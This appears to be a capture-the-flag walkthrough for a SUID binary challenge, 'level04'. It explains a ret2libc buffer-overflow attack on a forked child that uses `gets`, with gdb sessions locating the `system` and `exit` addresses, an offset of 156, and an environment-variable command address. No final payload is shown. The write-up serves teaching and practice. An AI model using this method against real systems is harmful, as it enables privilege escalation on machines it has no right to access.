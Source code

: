 # Walkthrough - level04

The program has SUID permissions from the user `level05`, which will allow us to obtain their flag.

## Disassembly

- Presence of a fork that executes a `gets` to store it in variable s
- No possibility of executing shellcode as the fork doesn't give us control of stdin
- Parent process waits for child and kills it in case of problems during execution

## Exploit

The idea here is to rewrite the EIP of the main function in the child to execute the `system` function from libc. To do this, we must follow the following scheme:

![Read to libc](resources/read_to_libc.png)

We found the addresses of the functions `system` and `exit` in the libc:

```bash
(gdb) b main
(gdb) run
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) p exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
```

We also found the offset value of `156` using the buffer overflow pattern generator.

To store the command in environment variables and retrieve its address, we must not forget to unset the `COLUMNS` and `LINES` variables in gdb. We can then retrieve the addresses:

```bash
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) b main
(gdb) run
(gdb) x/500s
```

We thus obtain the address of our environment variable (carefully noting that the variable name is also stored at this location, we must properly retrieve the address of the environment variable's value).

Source of ret2libc explanations: https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc#finding-system
